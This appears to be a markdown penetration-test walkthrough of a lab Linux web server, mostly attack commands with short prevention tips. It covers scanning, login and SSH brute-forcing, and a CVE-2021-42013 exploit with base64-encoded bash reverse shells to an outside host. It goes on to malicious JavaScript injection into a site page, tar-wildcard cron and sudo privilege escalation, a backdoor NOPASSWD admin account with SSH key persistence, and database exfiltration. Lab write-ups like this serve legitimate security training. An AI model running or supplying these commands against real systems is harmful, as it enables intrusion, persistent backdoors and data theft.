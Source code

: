 ### Nmap Scanning
```bash
cd /home/kali/ela/linux
target=10.5.20.12
nmap -sSV -p- -Pn -n -O $target -T3
```
#### Prevention
lower the options of scanning to not reveal service information 
use firewall, IDS, DMZ, hide legacy services behind VPN

### Web Content Discovery
```bash
# Directory Enumeration 
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# File Enumeration
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak
```

#### Prevention
disable scanning of directories, and unwanted files

```bash
# httpd.conf
Options -Indexes

# .htaccess 
<FilesMatch "\.(htaccess|htpasswd|env|ini|log|conf)$">
  Order Allow,Deny
  Deny from all
</FilesMatch>
```

### Login Page Bruteforce
```bash
ffuf -u http://10.5.20.12/user/log-in.php -X POST \
-H "Cookie: PHPSESSID=tg6bk1lbboajafumsv03n2t0o8" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "email=FUZZ1&password=FUZZ2" \
-w ./web_users.txt:FUZZ1 -w /usr/share/nmap/nselib/data/passwords.lst:FUZZ2 \
-fc 401
```

#### Prevention
set up tools like fail2ban or iptables recent module, apache mod_evasive 
use modern languages and libraries, good coding practices
timing limit
ideally MFA, CAPTCHA, WAF

### SSH Bruteforce
```bash
hydra -L ./ssh_users.txt -P /usr/share/nmap/nselib/data/passwords.lst ssh://$target
```
#### Prevention
first thing you always do is harden ssh sshd_config on a new machine
ideally use long key with strong ciphers

```
PasswordAuthentication no
PermitRootLogin no
```

### Unsucessful Path Traversal Used to Read /etc/passwd CVE-2021-42013

```bash
wget -O exploit.sh https://www.exploit-db.com/raw/50406
echo $target > targets.txt
bash exploit.sh targets.txt /etc/passwd
```

#### Prevention
use container isolation
non-root user

### RCE Resulting in Reverse Shell CVE-2021-42013
```bash
bash exploit.sh targets.txt /bin/sh id

nc -lvnp 4444
bash exploit.sh targets.txt /bin/sh "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzQ0NDQgMD4mMQ== | base64 -d | bash"
```

#### Prevention
keep up to date your patch management preferably set up automatic updates 

### Shell Upgrade
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
user@remote:~$ ^Z
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
user@local:~$ echo $TERM
user@local:~$ echo $SHELL
user@local:~$ stty raw -echo; fg  #JUST IN CASE, YOUR SHELL IS zsh!!!! OTHERWISE USE THERE COMMANDS SEPARATELY!
user@remote:~$ stty rows ROWS cols COLS

user@remote:~$ export TERM=xterm-256color # the response from previous `echo $TERM`
user@remote:~$ export SHELL=bash # same with `echo $SHELL`
exec /bin/bash # reload bash to apply the TERM variable
```

#### Prevention
use limited shells

### Loud Linux Enumeration - Linpeas
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

#### Prevention
it is possible to set up traps on the system for example high priledged canary files that track who reads them and executes something that will eg. isolate the user 

### Malicious Javascript Addition
```bash
nano /usr/local/apache2/htdocs/index.php
# add <script src="./js/captcha.js"></script>
echo "<captcha>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js
bash -c 'echo "<base64...>" | base64 -d > /usr/local/apache2/htdocs/js/captcha.js'
```

### Cronjob Priviledge Escalation
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64; chmod +x ./pspy64; ./pspy64
nc -lvnp 1337
echo 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC41LjMwLjUwLzEzMzcgMD4mMQ== | base64 -d | bash' > /usr/local/apache2/htdocs/exploit.sh

chmod +x /usr/local/apache2/htdocs/exploit.sh
echo '' > /usr/local/apache2/htdocs/'--checkpoint=1'
echo '' > /usr/local/apache2/htdocs/'--checkpoint-action=exec=sh exploit.sh'
```

#### Prevention
use proper file permissions, prevent using wildcards, use full paths, low priviledged users

### Loud Linux Enumeration - Linenum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Sudo Priviledge Escalation
```bash
sudo git help config
!/bin/sh
```

#### Prevention
avoid using NOPASSWD, think about all the options before adding command to sudo (gtfo bins)

### Information Exfiltration + Persistence
```bash
mysqldump -u root webapp | gzip > /opt/database.sql.gz
```

```bash
# 1. Create admin user with sudo privileges
useradd -m -s /bin/bash admin
usermod -aG sudo admin
echo 'admin ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/admin
chmod 440 /etc/sudoers.d/admin

# on kali machine
ssh-keygen -t rsa -b 4096 -f /home/kali/.ssh/majestic -N ""

# 2. Set up SSH key for admin (replace with your actual public key)
mkdir -p /home/admin/.ssh
echo '</home/kali/.ssh/majestic.pub>' > /home/admin/.ssh/authorized_keys
chmod 600 /home/admin/.ssh/authorized_keys
chmod 700 /home/admin/.ssh
chown -R admin:admin /home/admin/.ssh

# 3. Confirm that you are able to login
ssh -i /home/kali/.ssh/majestic admin@10.5.20.12

# 3. Exfiltrate data using scp with a provided private key 
scp -i /home/kali/.ssh/majestic admin@10.5.20.12:/opt/database.sql.gz database.sql.gz
```